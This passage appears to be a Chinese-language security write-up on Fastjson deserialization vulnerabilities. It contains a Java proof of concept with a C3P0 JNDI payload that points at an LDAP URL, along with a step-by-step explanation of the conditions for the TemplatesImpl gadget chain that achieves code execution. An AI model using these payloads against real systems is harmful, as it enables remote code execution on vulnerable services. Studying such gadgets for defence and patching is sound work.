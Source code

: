 ```java
package cve.fastjson;

import com.alibaba.fastjson.JSON;

public class C3P0_JNDI {
    public static void main(String[] args) {
        String payload = "{\"@type\":\"com.mchange.v2.c3p0.JndiRefForwardingDataSource\"," +
                "\"jndiName\":\"ldap://127.0.0.1:1099/calc\"," +
                "\"loginTimeout\":0}";
        JSON.parse(payload);
    }
}
```

## [<=1.2.24]JDK1.7 TemplatesImpl

基于`JDK1.7u21 Gadgets` 的触发点TemplatesImple的利用条件比较苛刻：

1. 服务端使用parseObject()时，必须使用如下格式才能触发漏洞：
   `JSON.parseObject(input, Object.class, Feature.SupportNonPublicField);`
2. 服务端使用parse()时，需要`JSON.parse(text1,Feature.SupportNonPublicField);`

这是因为payload需要赋值的一些属性为private属性，服务端必须添加特性才会去从json中恢复private属性的数据

恶意TemplatesImple类需要满足如下条件:

1. TemplatesImpl类的 `_name` 变量 != null
2. TemplatesImpl类的`_class`变量 == null
3. TemplatesImpl类的 `_bytecodes` 变量 != null
4. TemplatesImpl类的`_bytecodes`是我们代码执行的类的字节码。`_bytecodes`中的类必须是`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`的子类
5. 我们需要执行的恶意代码写在`_bytecodes` 变量对应的类的静态方法或构造方法中。
6. TemplatesImpl类的`_tfactory`需要是一个拥有getExternalExtensionsMap()方法的类，使用jdk自带的TransformerFactoryImpl类

然后调用满足条件的恶意TemplatesImple类的getOutputProperties方法, 这是fastjson将自动调用字段的getter方法导致的, 看一下getOutputProperties方法是否满足自动调用getter方法的条件 

```
public synchronized Properties getOutputProperties() {
	try {
            return newTransformer().getOutputProperties();
        }
        catch (TransformerConfigurationException e) {
            return null;
        }
    }
```

- 方法名长度大于等于4
- 非静态方法
- 以get开头且第4个字母为大写
- 无传入参数
- 返回值类型继承自Collection Map AtomicBoolean AtomicInteger AtomicLong（Properties继承自Hashtables, 实现了Map, 符合）
